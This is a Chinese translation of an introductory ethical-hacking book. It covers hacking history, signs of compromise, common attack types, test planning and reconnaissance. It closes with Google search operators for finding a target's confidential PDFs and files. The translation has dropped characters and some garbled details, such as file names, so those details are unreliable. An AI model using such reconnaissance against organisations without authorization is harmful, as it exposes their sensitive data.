


# 黑客：计算机黑客、安全测试、渗透测试与基础安全！








# 引言

大多数人并不真正理解什么是黑客行为，更不用说如何操作了。这只是我们在电影中看到或在新闻中听到的东西。这本书*黑客、计算机破解、安全测试、渗透测试与基础安全*旨在帮助你从更广泛、更深入的角度理解黑客技术。

黑客行为通常被视为一种旨在窃取数据或钱的非法活动。虽然确实有一些黑客利用技能进行犯罪活动，但这并不是黑客行为的本质。黑客简单地发现产品或环境中被忽视或无意的用途，并提出解决问题的新方法。

在书中，你将学习如何保护自己免受目前最常见的黑客攻击。如何做？通过学习如何黑客！没错。在不先了解黑客实际运作方式的情况下，指望保护自己和财产免受黑客侵害是不可想象的。

如果你想领先于黑客并进行自己的反击，那么你走运了。你选对了书。在这里，你将学习伦理黑客和犯罪黑客所使用的现代工具和高级技术。你不仅将学习如何寻找系统的漏洞，还将了解如何识别正受到攻击的系统。

书中概述了一些策略，将帮助你测试任何系统的漏洞，并防止你掉入黑帽的陷阱。本书旨在帮助你提高个人及专业领域的信息安全。因此，了解电子设备如何在你毫无察觉的情况下被攻破是非常重要的。

本书使用了初学者也能理解的简单语言。需要深入学习黑客某些方面的资深黑客也可以使用此书。本书对于如何成为一个需要修复其系统任何漏洞的组织的伦理黑客提供了极佳的建议。

全书分为三个部分，每部分讨论一个不同的主题。第一部分带我们进入黑客世界、其历史以及现状。第二部分讨论了破解各种系统、网络和应用程序的功能性艺术。最后，第三部分涉及关于伦理黑客应该做什么和不该做什么，以及黑客行为的未来趋势。你可以从感兴趣的任何部分开始，并根据自己的需要进行调整。

我们希望，当你读完这本书时，你已经学习了足够的知识来更好地保护自己，并能够进行自己的伦理黑客操作。

# 第一部分：进入黑客世界

## 第一章：什么是黑客？

当提到“黑客”这个词时，脑海中会浮什么样的画面？你会想到试图窃取数据或监视他人的罪犯破坏分子吗？你会想到某人坐在电脑前，向他人发送加密程序，以便远程访问他们的计算机吗？

事实是，大多数人将黑客行为视为一种非法活动。虽然犯罪黑客确实存在，但他们实际上只是少数。黑客简单地寻找计算机硬件或软件的替代或无意用途，以增强其应用并解决问题。

这是黑客行为的技术定义。黑客是以新颖和反直觉的方式利用可用技术来解决传统技术无法解决的问题。只有在当今数字时代，黑客行为才成为绕过安全、非法访问他人计算机和制造混乱的同义词。

### 黑客的历史

19 世纪 70 年末，贝尔电话公司雇用了几名青少年担任交换机操作员。这些男孩决定进行一些技术上的恶作剧，例如故意误导和切断电话、、听对话以及其他各种恶作剧。虽然在当时这被称为“黑客”，但它是最早被认可的误用技术的事件。甚至有人认为，这是公司决定只雇佣女性作为操作员的原因之一。

快进到大约 100 年后的 20 世纪 50 年代。`hack` 一词被用来绕过系统原始运行的捷径或技术。该术语由麻理工学院（MIT）的模型火车爱好者创造，他们收到了一批旧电话设备捐，然后利用这些设备创建了一个控制模型火车的复杂系统。他们设计出一种方法，通过拨打电话让多个操作员操纵轨道。这些人被认为是原始的黑客，因为他们能够利用现有的设备并发现新的发明用途。

许多这些模型火车黑客随后对校园内引入的新计算机系统产生了好奇。他们是一群编程极客，想要更改现有的计算机程序使其变得更好、针对特殊应用进行定制，而且主要是为了好玩。最终结果是，他们制作了原始程序的修改版和更优雅的版本。他们不仅满足于编写解决问题的程序；他们希望程序能以最好的方式解决问题。

20 世纪 70 年代，出现了一种不同的黑客类型，其重点是利用电话系统。这些人被称为“电话摇者”（phreakers），他们的目标是弄电子交换系统是如何工作的，以便拨打免费的长途电话。这是早期反建制运动之一的例子，这种运动后来催生了个人计算机黑客。


随着个人电脑在 20 世纪 80 年代的普及，黑客能够获得自己的设备，并利用新技术扩大他们的范围。他们迅速学会了如何使用调制解器拨号并访问他人的个人计算机。就在此时，斯蒂芬·列维（Stephen Levy）出版了*黑客：计算机革命的英雄》（*Hackers: Heroes of the Computer Revolution*），书中提到对计算机进行不受限制的完全访问，以便理解世界的运行方式。这种为了剖析、理解并更好地欣赏计算机编程以获取更多知识的渴望，后来被称为“黑客伦理”（Hacker Ethic）。

20 世纪 80 年代后期，出现了一群黑客，他们认为仅仅出于学习等良性目的探索系统已经不够了。这群年轻一代决定通过从事犯罪活动来获取个人利益。这包括销售盗版视频游戏、软件，甚至分发蠕虫和病毒以攻 own 整个系统。他们形成了网络黑帮，针对大型机构和政府的敏感数据。执法部门介入，反黑客法很快通过。许多这些网络黑帮成员被捕并起诉。

黑客领域的最新前沿被称为“无线攻击”（whacking）。这涉及寻找未安全的无线接入点（WAPs）并连接到它们。由于 Wi-Fi 使用的增加，这种现象变得越来越普遍。

## 黑客类型

如何区分想要分享技术进步成果的好黑客和那些想要从他人那里偷东西的人呢？最初，`cracker`（破解者）一词被用来描述为了利润而篡改系统并违法的黑客。遵循黑客伦理原则的是好人，被简单地称为黑客。好黑客对媒体将黑客行为与少数人进行的犯罪活动联系起来感到被冒，并决定创造 `cracker` 这个词。

然而，时代已经改变，`cracker` 一词已不再经常使用。今天，黑客通常分为：

### 黑帽黑客
这些是故意入侵系统并盗取信息或钱的犯罪分子。他们也被称为恶意黑客或 `crackers`，通常为了私目的而攻击设备。

### 白帽黑客
这些人也被称为道德黑客。他们攻击设备和系统仅是为了发现潜在的漏洞，然后找出防止这些漏洞被利用的方法。白帽黑客确保向公众发布更新以修补系统漏洞。他们不断在系统和设备中寻找新漏洞，以便使其更高效、更安全。这不是一项轻松的任务，这就是为什么道德黑客组成社区来分享他们的知识。

### 灰帽黑客
这些是出于利润也出于伦理原因的黑客。他们倾向于同时使用合法和非法手段来利用系统。他们获取系统的访问权限，告知他们发现的漏洞，然后提供如何改进安全性的建议。

## 黑客的动机

尽管黑客被认为是程序员的专属领域，但任何人都可以学习如何黑客。人们参与黑客通常有四个主要原因：

1. 获取系统的合法且授权的访问权限，以测试其安全性，暴露可能存在的漏洞并修复它们。
2. 出于纯粹好奇或自豪心获取系统的非法访问权限。这通常是大多数从网上下载现成工具的业余黑客的动力。此类黑客通常被称为“脚本小子”（script-kiddies），他们经常针对随机组织和系统仅仅为了制造混乱。媒体强调的大多数黑客事件通常都是寻找机会制造麻烦的脚本小子。
3. 获取未经授权的访问，以恶意破坏或篡改信息。
4. 获取计算机系统的访问权限以盗取数据并卖给其他方。公司或政府通常会雇佣这些人。

无论你的动机是什么，始终记住有许多不同的学习黑客的方法。随着技术进步和知识演变，新的更有效的攻击或保护系统的方法正在被创造。

任何拥有智能手机或电脑的人都需要学习如何黑客。你需要动力学习你自己的设备和系统是如何工作的，以便对其进行调整并使其变得更好。你每天可能在便携电子设备上收到几十次下载、消息和电子邮件，但你真的关注允许进入系统的内容吗？

如果你想保护自己不受黑帽黑客的影响，你需要开始他们一样。这意味着你必须获得相关知识，理解攻击的动机以及可以用来对你的工具。这将是理解如何防御自己甚至发动自己的反击的第一步。

### 你需要什么

黑客初看起来可能令人望畏，尤其是如果你以前从未实践过的话。然而，你真正需要的是计算机的使用知识以及遵循书面指令的能力。你可能还不知道编写计算机代码，但没关系。这本书包含了关于你所需的编码软件和操作系统的指令。另一方面，如果你真的想成为一名专家级黑客，你就必须学习如何编写代码。

成为黑客你必须具备特定的技能和要求，例如：

- **中级计算机技能**：你的计算机技能需要不仅仅是打字和浏览互联网。你必须能够使用 `Windows` 命令模块或创建一个网络。
- **网络技能**：黑客主要是在线活动，因此你需要理解与在线网络相关的术语和概念，例如路由器、数据包、端口、公网和私 IP、`WEP` 和 `WPS` 密码、`DNS`、`TCP/IP`、子网划分（subnetting）等许多。
- **数据库技能**：学习并掌握数据库管理系统（例如 `MySQL` 和 `Oracle`）对于理解黑客用来渗透数据库的技术很重要。
- **Linux 操作系统的使用**：绝大多数黑客使用 `Linux` 操作系统，因为与 `Mac` 和 `Windows` 不同，它允许你按意调整程序。你遇到的几乎所有的黑客工具都是为 `Linux` 开发的。
- **脚本技能**：早晚你必须学习如何创建自己的黑客工具，如果不培养必要的脚本技能，你就无法做到。通过创建和编辑自己的脚本，你将不再需要依赖其他黑客提供的工具，从而增强你防御系统的能力。黑帽黑客擅长创建黑客工具，如果你想保持安全，就必须在知识上与他们匹配。你应该考虑学习像 `Python` 或 `Ruby Rails` 这样的脚本语言。
- **虚拟化软件包的使用**：在对真实系统尝试攻击之前，你应该先通过虚拟化软件运行它，这将为你的测试提供一个安全环境。你需要知道如何使用虚拟工作站，例如 `VMWare Workstation`，以避免损坏自己的电脑或移动设备。
- **理解安全概念和技术**：在信息技术领域有很多复杂的安全概念和技术。作为黑客，你必须了解对你使用最重要的那些，例如防火墙（firewalls）、公钥基础设施（PKI）、安全套接层（SSL）等。
- **逆向工程技能**


这涉及到拆解软件或硬件以理解其工作原理，然后将其转换为一个技术上更先进的工具。你会发现的一点是，大多数黑客能够通过逆向工程其他黑客的恶意软件来制作更好的黑客工具。掌握了这些技能，你将成为一名更高效的黑客。

# 第 2 章：黑客攻击与基础安全

大多数人通常意识到黑客和恶意用户会攻击他们的系统。然而，大多数人并不真正理解他们极易遭受的特定攻击，更不用说黑客入侵其系统的那些关键迹象了。

## 检测黑客攻击

恶意黑客可以通过多种方式利用你的系统漏洞。攻击可能通过一个特定的漏洞、同时通过几个不同的漏洞、你系统某个组件的配置错误，或者很可能是在过去的攻击期间创建的后门来实现。

这就是为什么判断你是否被黑客入侵往往是困难的，尤其是当你不是一名经验用户时。如果你想学习如何成为一名道德黑客，那么能够检测出是否有人入侵了你的系统也同样重要。以下信息包含了你可以使用的指南，以帮助你检测可能发生的黑客攻击。

请记住，仅仅因为你的机器显示了指示性行为，就无法完全确定你的系统已被破解。然而，如果你的系统确实显示了这些迹象中的多个，那么你很可能已经被黑客入侵了。

以下指南适用于运行 Windows 操作系统或 UNIX 的机器。

### 适用于 Windows 系统

- 异常高的出网络流量。如果你正在使用 `ADSL` 或拨号上网账户，并检测到异常巨大的出站流量，但你并没有主动上传任何内容，那么你的系统可能正受到攻击。恶意黑客可能正在利用你的计算机发送垃圾邮件，或者网络蠕虫正在利用你的系统进行复制和传播。然而，如果你正在使用网线浏览网页，情况就会变得有些复杂，因为你的出站和入站流量通常几乎是相同的。
- 磁盘活动水平升高以及根目录下存在未知文件。大多数恶意黑客倾向于对目标计算机进行大规模扫描，寻找任何有价值的文档或文件。即使在计算机空闲状态下，扫描往往也会增加磁盘活动。这些扫描旨在挖掘网站密码、在线支付账户或银行登录信息。还有一些蠕病毒会感染你的系统，然后搜索包含电子邮件地址的文档。这些文档可以被用来将蠕病毒传播给其他网络用户。如果你发现磁盘活动增加并带有可疑名称的文件夹，那么你可能已经被黑或或感染了恶意软件。
- 你的个人防火墙拦截了来自一个源地址的大量包。恶意黑客通常使用自动探测工具来寻找渗透系统的多种方法。如果你发现防火墙阻止了来自一个地址的可疑大量数据包，那么你可能正受到攻击。防火墙能够阻止这些攻击是非常棒的，但黑客有可能针对你系统中的某个特定的 `FTP` 服务，而你可能在在线时暴露了它。采取的最好行动是临时封锁黑客的 IP 地址直到他们停止尝试连接你的系统。
- 杀毒软件突然检测到木马和后门的报告。常见的误解是恶意黑客总是以复杂的方式发起攻击，但事实是，如果有捷径，他们总是选择更简单的路径。如果你的系统之前被破解，恶意黑客将简单地使用后门或木马来完全访问它。如果你的杀毒软件报告了此类恶意软件，而你最近没有对系统进行任何更改，那么可能有人正在远程访问你的系统。

### 适用于 UNIX 机器

- `/tmp` 文件夹中任何名称可疑的文件。大多数恶意黑客倾向于创建临时文件并将它们隐藏在 `/tmp` 文件夹中。这些文件通常不会被删除，因此可能检测黑客是否入侵了系统。还有某些针对 UNIX 系统的蠕虫。它们在 `/tmp` 文件夹中安家并利用它来重新编译自己。你需要留意这些迹象。
- `/etc/services` 文件中添加了可疑的服务。恶意黑客经常添加几行额外的文本，以便为 UNIX 系统打开一个后门。黑客会针对两个文件——`/etc/services` 和 `/etc/ined.conf`。这些是你需要关注的文件，以监控黑客可能在你的系统中开启的任何后门。
- `/etc/` 文件夹中系统文件被修改。恶意黑客通常会创建一个新的用户配置文件，供他们日后登录系统。此类修改发生在 `/etc/shadow` 和 `/etc/passwd` 文件中。如果你在使用多用户系统，应该始终警惕密码文件中的任何可疑用户名或新增项。

## 攻击类型

黑客对系统发动攻击有多种方法。由于社交媒体、云计算和虚拟化，系统在近期变得更加脆弱。我们的技术进步越快，IT 环境就越复杂，从而导致更大的不安全性。黑客对系统发起的攻击通常有三种形式。这些是物理攻击、语法攻击和语义攻击。

- 物理攻击是指黑客使用火灾或炸弹等传统武器来破坏数据。它可能还涉及闯建筑并盗取设备，甚至翻找垃圾桶以寻找有价值的信息（密码、知识产权、网络拓图等）。
- 语法攻击是指使用病毒、蠕虫、木马程序或恶意软件来渗透并破坏系统。这种形式攻击最常见的实施方式之一是通过电子邮件。
- 语义攻击是指黑客微妙地接近目标，获得其信任，然后导致系统产生错误或异常结果。黑客能够修改信息并将其伪装成真实信息，或散布不准确的信息。

这三大类攻击可以细分为具体的黑客技巧。其中一些是先进且复杂的技巧，而另一些是存在已久的传统类型。

### 键盘记录

恶意黑客可能会使用称为 `keylogger` 的简单软件记录键盘上输入的每一个按键。该软件会将这些信息存储在你计算机的日志文件中，供黑客稍后提取。日志文件可能包含各种账户的密码以及个人电子邮件 ID。

### 拒绝服务 (DoS)

这是一种攻击形式，黑客向服务器或网站注入大量的流量请求，试图使其瘫痪。目标服务器或网站将无法实时处理大量的请求，导致崩溃。黑客可以通过部署僵尸计算机或僵尸网络来执行这种攻击，这些计算机唯一的工作就是向目标系统发送不断的请求包。

黑客也可能对单个即时通讯用户发起 `DoS` 攻击。用户的系统会被来自黑客创建的多个用户账户的消息淹没，导致系统变得不稳定并挂起。

### 钓鱼攻击


网络钓鱼是一种利用人们在打开邮件时不留神心的技术。黑客会发送一封看起来像来自合法来源（如银行或慈善机构）的邮件，要求用户点击一个据称将他们引导至真实网站的链接。该链接名称可能与用户经常访问的网站相同，但实际上，它会引导用户进入另一个网站，并在用户的系统中安装一个 `Trojan`（特木马程序）。在某些情况下，黑客可能会发送一封声称来自金融机构的邮件，要求用户提供银行账户号码和密码等敏感信息，否则其账户将被注销。

## 水坑攻击

这是一种黑客在目标人物最容易接触的地方进行攻击的技巧。例如，你可能在特定的日期或时间光顾某家特定的咖啡馆，并通常使用提供的 `Wi-Fi` 访问点。黑客可能会监控你的行程，在咖啡馆里创建一个虚假的 `Wi-Fi` 访问点，并修改你喜爱的网站以获取你的个人信息。当你连接到虚假访问点时，黑客就能获取你的所有数据。

## 窃听与身份冒充

这是一种被动攻击形式，黑客通过监控系统来获取密码和用户账户等信息。随后，黑客窃取用户的身份，并向受害者邮件联系人列表中的人员发送信息。受害者的联系人并不知道与他们分享敏感信息的人并非本人。黑客甚至可以向他们发送一个 `Trojan` 程序并要求他们在自己的计算机上运行，从而让黑客获得访问更多密码和用户名的权限。

## 钓鱼劫持 (Pharming)

这是一种钓鱼攻击形式，黑客将旨在访问某个特定真实网站的流量重定向到另一个虚假网站。钓鱼劫持（读音为“farming”）可以通过两种方式实现：修改用户计算机上主机站点的文件，或者利用该网站的 `DNS` 服务器软件中的漏洞。`DNS` 服务器本应充当引导路标，将在线用户引导到正确的网站。如果 `DNS` 服务器被破解，用户将简单地带到黑客想让他们去的任何地方。这种形式的黑客通常针对在线银行和电子商务网站。

## 点击劫持

这种技术也被用户界面欺骗。黑客在网站上一个看似真实的按钮或链接下方隐藏一段恶意代码。当毫无防备的用户点击该按钮或链接时，代码就会被激活。换句话说，你点击的是物理上看到的东西，但却产生了一个虚拟且非违心的的结果。

例如，用户可以进入一个网站，完成后决定点击右上角的“X”按钮关闭窗口。然而，他们不知道黑客在该按钮下方隐形地放置了一个按钮，该按钮会触发 `Trojan` 木马的下载、开启计算机的摄像头或删除防火墙规则。网站本身可能是合法的，但它已经被黑入并操纵了。或者，黑客可能会复制一个知名网站并在网上发布链接，或向人们发送带有链接的邮件。

## Cookie 窃取

Cookie 窃取发生在黑客窃取网站赋予用户的 Cookie 时。随后，黑客使用同一个 Cookie 在用户登录的特定会话中冒充用户。这就是为什么 Cookie 窃取被认为是会话劫持的一种形式。例如，用户每次登录 `Facebook` 时，网站都会向他们发放一个 Cookie 来证明他们在该会话期间的身份。如果用户在公共场所使用免费且未加密的 `Wi-Fi` 浏览，黑客可以使用软件读取、复制并使用该 Cookie。黑客将能够发布信息、更改用户资料等。

其他类型的会话劫持包括嗅探和 `Evil Twin`（邪恶入侵）攻击。嗅探是指恶意黑客使用某种软件拦截特定设备发送或接收的信息。`Evil Twin` 攻击涉及创建一个看似真实但并非真实的 `Wi-Fi` 网络。用户无意中加入该网络，从而允许黑客发起中间人攻击。

## 中间人攻击

这种攻击也简称为 `MiM` 或 `MitM` 攻击。这是一种涉及恶意黑客拦截双方之间的信息、冒充双方并以此收集正在传输信息的攻击。双方都不会意识到与他们通信的人是外部人员。这是一种实时窃听的形式，允许入侵者通过在在线会话中注入虚假信息来操纵他人。黑客将要求双方提交敏感信息，如银行账户号码和密码。对话可能发生在两个人之间，也可能是客户端与服务器之间。金融网站是 `MitM` 攻击最常见的目标。

## 间谍软件

这是黑客安装在受害者计算机上的计算机软件，以便在用户不知情的情况下收集敏感信息。该软件可以在黑客无需物理接触受害者计算机的情况下远程安装。与蠕虫和病毒不同，间谍软件并不是为了自己传输到其他设备。

黑客知道用户永远不会主动下载间谍软件，因此他们通常将其寄生在合法软件中，例如流行的网络实用工具，甚至是反间谍程序。用户只是简单地从互联网下载并运行软件，而不知道自己正被监视。某些间谍软件甚至被固化在音乐光盘或共享软件中。用户还可能被骗点击一个按钮或链接，该按钮在表面上似乎可以保护他们免受意外下载的影响。例如，可能会弹出一个关于免费优化计算机系统的广告对话框。用户被要求点击 `Yes` 或 `No` 按钮，但无论点击哪一个按钮，间谍软件都会被下载。

# 第 3 章：伦理黑客计划

在没有先进行安全测试的情况下，你无法开始伦理黑客过程。需要对涉及的战术和策略问题达成共识。为了确保你的努力成功，请花需要的时间进行计划，无论是简单的操作系统密码破解测试，还是对网络环境漏洞的全面评估。

## 寻找你的目标

信不信，寻找完美的黑客受害者需要大量的研究。黑客不会仅仅跳向他们遇到的目标。必须对潜在目标进行一些策略性研究，分析其习惯，并最终选择最佳技术。


不同的黑客对于其所做的行为动机各异，但其共同点是：黑客只有在知道系统存在漏洞且能从中行动获利时，才会发起攻击。这就是为什么避免在网络上公开分享个人敏感信息非常重要。如果你必须这样做，请务必确保你面对的是一个合法的用户，他们会保护他们的数据以及你的数据。

## 制定黑客计划

首先，获得安全测试所需的批准非常重要。确保负责授权的人知道你在做什么，并让他们随时了解进展。一旦你的项目获得了赞助，你就需要坐下来定义你的测试目标。赞助简单是指找到支持你并签署计划的人，例如客户，或者如果你正在测试自己的系统，甚至可能是你自己。

这一步非常重要，因为曾经过黑客被赋予测试系统的任务，结果却被意外取消的情况。即使是第三方（如云或网络托管服务），也可能声称从未授权过此类测试进行。最终结果可能是丢工作或面临刑事指控。如果你在公司进行测试，书面授权可以包括老板的内部备忘录。如果是为了客户，请让客户签署合同。

系统在测试过程中可能会崩溃，因此有必要制定详细的计划。计划不需要非常复杂，但必须有明确定义的范围。以下信息应包含在你的计划中：

- 确定首先需要测试的最关键和最脆弱的系统。这些可能包括服务器密码或电子邮件钓鱼。一旦核心区域完成测试，你就可以扩展到所有其他系统。
- 评估涉及的风险。在黑客攻击过程中出现问题时，始终有一个应急预案是重要的。提前确定人员和系统将如何受到影响。
- 确定你的测试时间表。可以在正常的营业时间内、清晨或深夜进行。关键是要确保受影响的人员知情。你还必须考虑的一个因素是，黑帽黑客不会将攻击限制在特定的时间。这意味着测试系统的最佳方法是在一天的任何时候启动任何类型的测试。异常通常是完全 DoS 攻击、物理安全测试和社交工程测试。
- 对被测试的系统有基本的了解。如果你是在破解自己的系统，那么这将非常简单。然而，如果你在测试客户的系统，可能需要获取更多细节。
- 定义在发现重大漏洞时要采取的行动。系统的某个地方总会有弱点，所以“找不到任何漏洞”的借口是行不通的。如果你发现了几个弱点，请尽快通知关键人员，以便他们能够立即修复。持续测试系统，直到发现它是无不可破的。
- 确定交付物是什么。这些包括包含漏洞信息的详细扫描报告以及如何修复漏洞的建议。
- 确定你完成任务所需的特定工具集。始终确保你正在为正确的任务使用正确的工具。如果你对某些工具没有太多经验，不要害怕向同事寻求建议。

## 建立你的目标

现在你已经创建了测试计划，你需要建立一些坚实的目标。道德黑客旨在发现系统中的所有漏洞，以防止犯罪黑客渗透它。这意味着你将不得不采用黑帽黑客的思维方式。

那么，你的黑客计划需要哪些目标呢？

- **定义并对齐你的目标** - 设置与客户目标一致的特定目标。确保你心里清楚你和客户想要实现的确切结果。确保你还建立了将用于判断测试的性能标准。
- **设定确定的测试时间表** - 你的整个黑客计划必须包含启动测试日期日期时间。

还有一些特定问题可以帮你为黑客计划制定目标：

- 你的测试是否与客户业务的任务相符？
- 道德黑客将满足哪些业务目标？例如，达到国际安全标准、符合联邦法规或提升公司形象。
- 这些测试将以哪些方式增强 IT 和安全？
- 保护的是什么数据？例如，知识产权、员工个人信息或个人客户数据。
- 你和客户准备投入多少资金、精力和时间来评估系统的安全性？
- 测试的交付物是什么？这些可能是测试结果、技术报告，甚至是你发现的密码。
- 需要什么样的结果？客户可能想为增加安全预算或外包安全人员提供理由。

一旦确定了黑客计划的目标，记录你为实现这些目标将采取的步骤是非常重要的。建立黑客计划的目标可能看起来繁琐且耗时，但绝对值得的。这些目标本应该指导你在过程中的每一个动作，所以请反复查看它们，以确保你正处于正确的轨道上。

## 道德黑客的十诫

道德黑客遵循某些准则。以下是其中主要的 10 条准则：

### 1. 你必须设定目标

如果你计划评估在线系统或网络的安全性，你必须首先尝试回答三个问题：

- 犯罪黑客在查看目标网络时会看到什么信息？
- 犯罪黑客可以滥用这些信息吗？
- 目标对象是否意识到任何渗透其系统的尝试？

黑客攻击的计划过程涉及目标设定。目标不需要过于复杂。它可以仅仅是从系统中获取信息，或者搜索无线网络以发现未经授权的访问。

### 2. 你必须提前计划 - 始终如此

每个黑客都受到某些限制。这些限制可能是时间、金钱或人力。因此，你必须学会如何规划你的工作，以避免偏离正。你的黑客计划应该包括：

- 识别你将测试的网络。
- 确定测试的间隔。
- 明确定义测试程序。
- 创建一个可以与利益相关者共享的计划。
- 获得计划的批准。

### 3. 你必须获得授权

作为一名道德黑客，在尝试破解组织的系统之前，必须获得必要的授权。如果没有，请做好坐牢的准备！确保你正在破解的系统所有者给了你书面许可。该文件应显示你已被允许根据预先批准的计划测试系统，并且在发生任何法律指控时该组织将支持你。

### 4. 你必须遵守道德


道德黑客受职业道德规范、保密性和良知的约束。确保你始终遵循预先批准的计划，避免在后续向其添加任何新细节。你不能向组织内外的任何未经授权人员发布或共享安全测试结果。你发现的任何信息都应被视为敏感信息，且不泄露给不需要的人。此外，了解组织内部与黑客相关的当地法律或治理法规也同样重要。如果法律或法规禁止黑客行为，请勿进行道德破解。

### 你必须保持良好的记录

每一个配得上该称号的道德黑客必须体现勤奋和耐心的品质。黑客是一项漫长而艰的任务，涉及到在键盘前连续工作数小时，直到达到目标才放弃。道德黑客的另一个专业方面是维护记录（电子或纸质），以备份你的发现。在记录方面，应该遵循一些基本规则：

- 记录执行的每项任务。
- 直接记录每条信息。
- 始终保留日志的备份副本。
- 记录执行的每次测试，包括日期。
- 尽管某些测试或任务可能没有按计划进行，但确保你仍然保持准确的记录。

### 你必须保护机信息

在测试过程中，你可能会遇到大量的个人和隐私信息。尊重他人隐私并对每条信息保持保密至关重要。密码、加密密钥和其他敏感信息不得被滥用。始终尊重他人的个人或机密信息，就像你希望他人对待你自己的信息那样。

### 你绝不能造成伤害

黑客行为往往会造成某种不可预见的损害。有时你可能会对工作和收到的积极测试结果感到兴奋，从而继续投入。然而，你可能会意外导致某种停机，甚至干扰他人的权利。这就是为什么你应该始终有一个计划，并承诺坚持执行。熟悉你正在使用的工具，特别是它们的影响。明智地选择工具，并始终阅读文档。

### 你的流程必须始终是实证的

如果你想让测试结果被接受，你需要使用具有以下特征的科学流程：

- **可量化的目标** - 设定一个你可以量化的目标。你可以设定任务目标或时间相关目标。
- **一致性与可重复性** - 你执行的每次测试必须产生相同的结果。如果不是，说明你的结果是不一致的且可能是无效的。如果你反复进行某项测试，每次都应该得到相同的结果。测试的一致性和可重复性是实证流程的关键特征。
- **结果的持久性** - 如果你专注于彻底解决持久性问题，而不是解决以后可能再次出现的临时问题，那么你所服务的客户将期待你的测试结果。

### 你不能使用任何随机工具

如今市场上有很多黑客工具。人们很容易被尝试所有工具的诱惑，可能是因为其中大多数是免费的。然而，建议只专注于少数几个你认为有效且熟悉的工具。

### 你必须报告你所有的发现

如果你被雇佣对系统进行道德破解测试，且过程超过了一周，你需要向客户提供每周状态更新。雇佣某人测试系统，结果对方花费了几个星期而没有任何任何形式的反馈，这可能会让人非常不安。如果你在测试期间发现系统中的任何高风险漏洞和缺陷，你需要向相关人员报告。你发布的报告是客户用来判断你工作得有多详尽、多诚实的依据。报告还将在对你的结果进行分析和评价时提供帮助。

上述解释的十诫律对于道德黑客非常重要。有时，你的工作可能会受到不公正的批评，但如果你遵循了这些诫律，你就能轻松地辩护自己。最后，确保你没有遗漏任何结果，无论它们看起来多么微不足道。你可能不需要在报告摘要中强调所有结果，但始终确保在详细叙述中对它们进行解释。你不想因被指控无能和操纵结果而损害你作为道德黑客的声誉。

# 第章：黑客方法论

黑客方法论是黑客在准备渗透测试时遵循的一项必要的步骤程序。这种方法论对黑客来说至关重要，因为它有助于引导你从现在所在地你想去的地方。道德破解不仅涉及渗透和修补系统。黑客方法论是将真正的黑客与新手（kiddies）区分开来的关键，并能节省大量的大量的精力。

## 测试准备

你可以使用特定的扫描器来自动发现系统中的漏洞。其中某些工具甚至可以用于修复漏洞。这些工具的益处是它们可以帮助你专注于测试方面，而无需在涉及的步骤上花费太多时间。但建议每个黑客都了解这些步骤，以便他们理解隐藏的细节，这将有助于关注真正重要的事情。

道德黑客和犯罪黑客在测试系统时使用相同的流程。唯一的区别在于最终目标以及实现方式。作为一名道德黑客，你必须测试进入网络的每一个潜在入口点。这些可能包括客户网络、无线网络或移动设备。恶意黑客能够利用人员、物理组件或计算机系统来发动攻击，因此你必须测试一切。

你的首要工作是发现漏洞，然后思考恶意黑客将如何利用系统。你可以决定对单台计算机模拟受限攻击，或对整个系统进行全面攻击。

在准备测试网络时，你必须像犯罪黑客一样思考。寻找弱点，评估内外部流程，评估各个系统是如何连接的，并检查私有系统的保护水平。你用来完成这一切的技术，在社会工程学和物理安全评估中本质上是相同的。

评估系统通常有两种方法——盲测（隐蔽）评估和公开（显性）评估。公开评估是指你对想要测试的系统了解一些内部信息。在盲测中，客户除了公司名称外，不会给你提供太多信息。你必须自己寻找信息，就像犯罪黑客必须做的那样。好处是你可以准确地看到恶意黑客在尝试公开获取访问时所看到的内容。缺点是测试需要更多时间，而且遗漏某些漏洞的可能性更高。

### 侦察

这是收集关于你的目标个人或组织信息的过程。这是一种被动的方法，主要涉及使用公开资源来寻找有关某事的信息。互联网上有大量信息，因此你必须保持耐心和勤奋。


黑客可以针对组织中的个人、特定部门或整个公司。一旦你确定了特定目标，就可以使用任何可用的搜索引擎来浏览有关该目标的信息。其目的是是尽可能地了解他们。

你可以使用许多技术，可以用来收集信息：

### 网络搜索

你可以访问目标自己的网站并进行浏览，尝试收集尽可能多的有用信息。使用 `Google` 查找诸此类信息：

- 员工姓名及其联系方式。你可以在 `Facebook` 或 `LinkedIn` 上继续寻找这些人。
- 与公司相关的日期和技术性职位空缺。大多数组织通常会指定潜在招聘者需要熟悉的技术。这能让你对公司使用的软件和硬件心中有所数。
- 如果是上市实体，可以查看 `SEC` 备案。
- 如果是私有实体，可以查看注册文件。
- 专利和商标。
- 讨论新产品或组织变更的新闻稿。
- 网络研讨会、文章或演示。
- 合并与收购。

如果你使用 `Google`，可以使用关键词来获取最相关的信息。如果你知道使用正确的关键词，在 `Google` 上能找到的详细信息（电话号码、地址等）简直令人难以置信。

你还可以使用 `Google` 的高级搜索功能执行高级网络搜索。这将揭示包含指向目标网站反链的网站。你可能会发现与你的目标相关的供应商、供应商和客户。

你还可以使用切换符（switches）深入挖掘，并访问与公司链接的文件。例如，如果你想发现公司 `XYZ` 网站上的特定文件或单词，请在 `Google` 中输入以下行：

```
site: www.xyz.com keyword
site:www.xyz.com filename
```

可以下载 Flash `.swf` 文件，这些文件可以被反编译以发现属于公司 `XYZ` 的机密。你还可以获取敏感数据的 `PDF` 文件。只需在 `Google` 中输入以下行：

```
Filetype: swf XYZ
Filetype:pdf XYZ confidential
```

### 网络爬虫

